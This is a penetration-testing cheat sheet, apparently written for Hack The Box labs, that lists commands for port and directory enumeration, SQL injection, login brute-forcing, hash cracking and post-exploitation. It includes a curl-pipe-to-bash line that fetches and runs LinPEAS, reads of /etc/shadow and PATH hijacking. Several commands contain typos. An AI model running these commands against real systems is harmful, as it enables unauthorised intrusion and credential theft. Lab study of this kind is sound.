 # Enumeration Phase

#### Nmap Enumeration

- I used the machine name as wr3nch and ist ip as 10.10.10.10 just for example


```bash
# normal nmap scan enumerates only open ports
nmap -Pn -vv -sC -sV -oN wr3nch.nmap 10.10.10.10
# nmap full ports scan TCP
nmap -p- -vv -sC -sV -oN wr3nch.nmap 10.10.10.10
# nmap UDP scan
nmap -sU -p- -oN wr3nch.nmap 10.10.10.10
# namp query shown by htb for port enumeratuion
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.10 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV -oN wr3nch.nmap 10.10.10.10
```

#### Directory Enumeration


- wordlist = `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

###### Gobuster

```bash
# directory listing mode
gobuster dir -u http://10.10.10.10 -w wordlist  -x php,html,txt,xml -o gobuster-out.txt
# enumerates virtual hosts
gobuster vhost -u http://10.10.10.10 -w wordlist -o vhost.txt
# if proxy needed
add `-p <proxy address>` in the dir mode and vhost mode
```


###### Wfuzz

```bash
# directory enumeration
wfuzz -u http://10.10.10.10/FUZZ -c -v -u http://10.10.10.10 -w wordlist --hc 404
# vhost enumeration
wfuzz -H 'HEAD: FUZZ.htb' -w wordlist -u http://10.10.10.10 --hw 0
# make a login attack (post request)
wfuzz -c -v -z file,wordlist -z file,wordlist -d "username=FUZZ&password=FUZ2Z" --hs incorrect --hs invalid http://10.10.10.10/login.php
# if proxy needed
add `-p <proxy address>` in the dir mode and vhost mode
```

#### Sql Injection

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch
# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

#### Curl and Wget

- Utilities present for making request and obtaining files

```bash
# make http, http2, http3 requests with curl
curl -vv http://10.10.10.10
curl --http2 http://10.10.10.10
curl --http3 http://10.10.10.10
# obtain only the response header
curl --head http://10.10.10.10.
# upload files via curl
curl --user "{user}:{creds}" --upload-file=<file> "http://10.10.10.10/upload_location"
# curl save the output
curl http://10.10.10.10 -o index.html
# pipe the requesting files
curl http://10.10.10.10:<port_no>:lin(peas\|enum).sh | bash
```

```bash
# download files with wget
wget http://10.10.10.10/xxx.sh
# run files without downloading
wget -O - http://10.10.10.11:<port_no>:lin(peas\|enum).sh
```

# BruteForcing Things

#### Login BruteForce

- Hydra, login page is found at `http://10.10.10.10/login.php`

```bash
# syntax
# hydra -L userslist -P passwordslist <url> http-post-form login_page:request_body:error_message
hydra -L usernames.txt -P passwords.txt 10.10.10.10 http-post-form "/login.php:username:^USER^&password=^PASS^&Login=Login:Login Failed"
# login_page = /login.php
# request_body = username:^USER^&password=^PASS^&Login=Login
# error_message = Login Failed
```

#### Cracking files/hashes

##### Zip files with john

```bash
zip2john \<zipfile\> \> zipfile.hash
john  --format=zip zipfile.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

##### Cracking Hashes 

```bash
john \<hashes_file \> --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -m \<Cracking mode\> \<hashes_file\> /usr/share/wordlists/rockyou.txt
```

# Post Exploitation

#### Find Files that contains specific sting in it

```bash
grep -iRl "I am a search string" ./
find . -type f -print0 | xargs -0 -e grep -niH -e "your common word to search"
```

#### File Transfer

> LINK AREA

#### Post Exploitation Commands:

| Description | Unix | CMD | Powershell |
| -- | -- | -- | -- |
| User Logged in | whoami | echo %username% | $env:username|
| | | | [System.Security.Principal.WindowsIdentity]::GetCurrent().Name |
| Change Directory | cd \<path\> | cd \<path\> | Set-Location \<path\> |
| Lis the directory | ls | dir | Get-ChildItem |
| View file contents | cat \<file\> | type \<file\> | Get-Content \<file\> |
| Move files | mv \<file.org\> \<file.mov\> | move \<file.org\> \<file.mov\> | Move-Item \<file.org\> \<file.mov\> |
| Clear Screen | clear | cls | Clear-Host |
| Copy files | cp \<file.org\> \<file.cpy\> | copy \<file.org\> \<file.cpy\> | Copy-Item \<file.org\> \<file.cpy\> | 
| Delete files | rm \<file\> | del \<file\> | Remove-Item \<file\>|
| Web Requests | curl \<url\> | | Invoke-WebRequest \<url\> |
| Supress Error messages | cd /Windows32/System 2>/dev/null | cat /etc/shadow 2>nul | Get-Content /etc/passwd -ErrorAction SilentlyContinue |

#### Network monitoring:

```bash
# network modules info and IPs
ifconfig
ipaddr
# shows the tcp connection
netstat -antp     
ss -antp  
#netstat -ano ; 0.0.0.0:445 = implies, SMB service is running within the machine and not open for others
#so it is best to perform port forwading and checking those services locally
# windows
netstat -antp 
ipconfig        
```

# Misc

#### Shell tty arrangements

```bash
# tty settings in local machine 
stty -a 
# change rows and columns in reverse shell
ssty columns 136 rows 32
```

#### Export path for path hijacking

```bash
export PATH=/tmp:$PATH
```